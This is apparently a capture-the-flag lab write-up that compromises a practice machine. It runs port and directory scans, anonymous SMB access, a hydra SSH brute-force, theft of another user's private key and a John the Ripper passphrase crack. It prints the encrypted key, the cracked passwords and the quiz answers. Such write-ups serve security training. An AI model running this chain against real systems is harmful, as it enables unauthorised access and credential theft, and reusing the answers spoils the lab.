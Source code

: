 
#security #webapp #boot2root #cracking

---

> Performing an nmap scan to identify the services and ports open.

```
nmap 10.10.166.120
```

![](./screenshots/nmap-1.png)

> We see that port 80 is open, so we go to the browser and browse to `10.10.166.120:80`.

![](./screenshots/1.png)

> Checking the source code of the page to see if there is anything useful.

![](./screenshots/2.png)

> I expect to see a directory on the server such as `/dev`. 
> Trying to go to `10.10.166.120/dev` gets a 404 not found.

> Performing a directory enumeration attack.

```
gobuster dir -u http://10.10.166.120 -w /usr/share/wordlists/dirb/common.txt
```

![](./screenshots/3.png)

> As expected, we see a `/development` directory.

###### What is the name of the hidden directory on the web server(enter name without /)? : `development`

> Going to that in the browser.

![](./screenshots/4.png)


| dev.txt                  | j.txt                    |
| ------------------------ | ------------------------ |
| ![](./screenshots/5.png) | ![](./screenshots/6.png) |

> Based on the nmap scan, we are probably dealing with null sessions based on port 139 and 445.
> To enumerate all the information about the machine, use `enum4linux`.

```
enum4linux -a 10.10.166.120
```

> We see that there are 2 users, `Kay` and `Jan`.

![](./screenshots/7.png)

> We also see there is a share called `Anonymous` that we can connect to.

![](./screenshots/8.png)

> We connect to the share using `smbclient` with `-N` to force no password.

```
smbclient //10.10.166.120/Anonymous -N
```

![](./screenshots/9.png)

> We see there is a txt file.
> Downloading that file using `get staff.txt` and then opening it outside of smbclient reveals nothing.

###### What is the username? : `jan`

###### What is the name of the other user you found(all lower case)? : `kay`

> Now, we know that there is ssh through the nmap scan.

######  What service do you use to access the server(answer in abbreviation in all caps)? : `SSH`

> Since we have the username, jan, and it is through SSH, we can use hydra to enumerate the password.

> The IP address changed because the machine terminated, use the target IP address.
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.64.88
```

![](./screenshots/10.png)

> The password for `jan` we found to be `armando`.

###### What is the password? : `armando`

> Now, we can login via ssh using the username and password we have.

```
ssh jan@10.10.64.88
```

> Inside the machine, we jump back one directory and access `/home`.
> We then see that there is another use `kay`.

```
cd kay
ls -lah 
```

![](./screenshots/11.png)

> We see the `pass.bak` file but it is accessible only via user kay.
> We see the `.ssh` file.

```
cd .ssh
ls -lah
```

![](./screenshots/12.png)

> We see the private key `id_rsa`.

```
cat id_rsa
```

> And copying its content into a new file called `id_rsa_1` on our local machine.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

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
-----END RSA PRIVATE KEY-----

```

> This key is password protected.
> Using `ssh2john` to transform it into a format the tool John The Ripper can crack.
> Writing the new format into a file called `id_rsa_2.txt`

```
ssh2john id_rsa_1 > id_rsa_2.txt
```

> Opening this file we see a hash.
> Using john the ripper on that file with the wordlist `rockyou.txt` to break the hash.

```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_2.txt
```

> We get as output the password `beeswax`.

![](./screenshots/13.png)

> Now that we have the private key and the password that were located inside the user `kay` directory.
> We can try to ssh using that information as kay into the machine.
> This will give us read access to the `pass.bak` file.

> IP address changed since the machine terminated.
```
ssh -i id_rsa_1 kay@10.10.227.16
```
> And entering the password `beeswax`.

> It doesn't work.
> We need to set the permissions for the private key to be read only.

```
chmod 600 id_rsa_1
```

> Trying to connect again and entering the password works.
> We can now open the `pass.bak` file to see its contents.

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

######  What is the final password you obtain? : `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---
